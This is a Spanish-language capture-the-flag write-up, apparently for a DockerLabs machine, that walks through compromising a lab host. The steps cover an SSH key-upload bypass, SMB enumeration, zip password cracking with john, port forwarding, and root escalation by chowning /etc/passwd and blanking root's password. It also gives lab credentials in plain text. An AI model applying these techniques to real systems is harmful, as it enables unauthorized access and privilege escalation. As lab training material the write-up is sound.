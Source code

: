 nmap: 80,22,139,445

![image](https://github.com/user-attachments/assets/c93e0c93-23ce-460d-b526-85e968e6f4ec)

---
en la pagina principal nos da:

![image](https://github.com/user-attachments/assets/fcc9059f-34dc-4407-a66f-0ffb9b1e35fe)

hacemos un gobuster:

![image](https://github.com/user-attachments/assets/3c562d69-2edd-486b-a1fd-1d4009b5bff6)

nos dio upload.php

![image](https://github.com/user-attachments/assets/4d4f493c-43c8-4824-b9c2-f362aa2990d4)

vuelvo hacer un gobuster pero agrego un .txt

![image](https://github.com/user-attachments/assets/3aab916e-3450-485c-8729-844555a092dd)

entramos y nos da

![image](https://github.com/user-attachments/assets/eabd553b-6926-48d4-ad8a-07d14d14bdf8)

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:

![image](https://github.com/user-attachments/assets/922a3b0b-ee7e-4809-bf6d-55356c4e5565)

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![image](https://github.com/user-attachments/assets/3abfabf0-f121-40d6-987e-86224e2cba2f)

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![image](https://github.com/user-attachments/assets/8ab00440-e29b-4c45-b999-d7b5cb3914d4)

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![image](https://github.com/user-attachments/assets/bdc38c49-08c0-4727-abc3-53421d68aab4)

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![image](https://github.com/user-attachments/assets/e3f79d3c-7b47-433b-b866-849bcbae20db)

al hacer un "ls", nos da esto:
>cat note.txt

![image](https://github.com/user-attachments/assets/02e6ce37-d644-425f-ba73-bd0b01b4a1a4)

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![image](https://github.com/user-attachments/assets/c56356f7-e265-4009-b2be-75228b56496c)

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![image](https://github.com/user-attachments/assets/4078231a-b32e-45f9-a536-865b0c8d77e4)

como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![image](https://github.com/user-attachments/assets/5d72b198-dbda-48ca-971d-6e71aa66eee1)

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![image](https://github.com/user-attachments/assets/7e47d33d-2cf5-4fea-9411-068ca33b6998)

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![image](https://github.com/user-attachments/assets/4ee839aa-948b-44f5-8945-716001247013)

encontramos esto

![image](https://github.com/user-attachments/assets/be0d2017-31f6-44c3-852f-6563801c2187)

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![[curl3.png]]

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![[dockerlabs/dificil/r00tless/conexion2.png]]

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![[ultra.png]]

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 
